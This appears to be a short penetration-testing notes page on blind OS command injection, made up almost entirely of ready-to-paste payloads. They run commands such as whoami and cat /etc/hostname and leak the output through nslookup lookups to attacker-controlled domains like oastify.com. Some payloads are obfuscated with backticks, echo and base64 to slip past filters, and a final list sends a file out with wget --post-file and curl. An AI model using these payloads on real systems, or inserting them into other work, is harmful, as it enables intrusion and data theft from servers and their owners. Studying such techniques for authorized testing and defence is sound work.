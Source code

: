 ```bash
& nslookup `whoami`.COLLABORATOR-PAYLOAD.com #
```

![[Whoami.png]]

Another way is by using the `$` syntax instead:

```bash
& nslookup $(whoami).COLLABORATOR-PAYLOAD.com #
```
# Obfuscation Payloads

The payloads can be combined when exploiting template injection or other vulnerabilities that use OS command injection.

Original payload:

```bash
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

Obfuscation using the "echo" command to help obfuscate the word "hostname":

```bash
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

Obfuscation using base64 to hide the file name:

```bash
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

Decoded payload:

```bash
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```

Obfuscation using base encoding to hide the whole command:

```bash
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```
# Other Methods

Some other methods to achieve data exfiltration include:

```bash
nslookup -q=cname $(cat /home/test).burp.oastify.com
wget http://burp-collab.com --post-file=/home/test
curl http://wcq0jo8.oastify.com -d @/home/test
```
